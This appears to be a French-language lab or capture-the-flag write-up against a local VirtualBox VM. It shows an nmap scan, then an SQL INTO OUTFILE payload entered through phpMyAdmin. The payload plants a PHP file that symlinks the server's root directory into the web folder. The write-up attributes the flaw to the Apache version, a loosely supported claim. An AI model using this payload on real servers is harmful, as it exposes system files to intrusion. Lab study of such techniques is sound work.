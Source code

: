 vie nmap on apprend que le server tourne sur Apache 2.2.22

```bash 
┌──(jdamoise㉿kali)-[~]
└─$ nmap -sV 192.168.56.101
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-24 10:35 EDT
Nmap scan report for 192.168.56.101
Host is up (0.00057s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
MAC Address: 08:00:27:6D:D3:C2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.99 seconds

```

dans cette version il y a une faille nous premaitant d'acceder a la racine du server via une page sur le navigateur 

via un __symlink("/", "path.php")__ qui est un lien symbolic du __path.php__ vers __/__
on peux acceder au __/__ depuis le navigateur

pour ce faire on execute une injection SQL sur phpmyadmin 

```sql
SELECT 1, '<?php symlink("/", "paths.php");?>' INTO OUTFILE '/var/www/forum/templates_c/run.php';

```

Cette injection vas nous permetre depuis la route /forum/templates_c/run.php

de creer le lien symbolic

il nous reste plus cas acceder a /forum/templates_c/paths.php pour recuperer tout le __/__